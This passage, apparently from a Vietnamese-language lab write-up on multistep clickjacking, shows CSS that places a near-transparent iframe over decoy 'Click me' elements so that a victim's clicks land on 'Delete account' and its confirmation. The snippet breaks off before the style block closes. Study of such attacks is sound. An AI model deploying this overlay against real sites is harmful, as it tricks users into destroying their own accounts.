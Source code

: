 ![Untitled](writeup_media/Untitled%2029.png)

---

### **Multistep clickjacking**

Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

Chỉnh thuộc tính `top` và `left` của hai thẻ div để nó trùng với nút Delete account và Yes

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 700px;
        opacity: 0.1;
        z-index: 1;
    }

    #first {
        position: absolute;
        top: 500px;
        left: 80px;
    }

    #next{
        position: absolute;
        top: 300px;
        left: 200px;
    }
```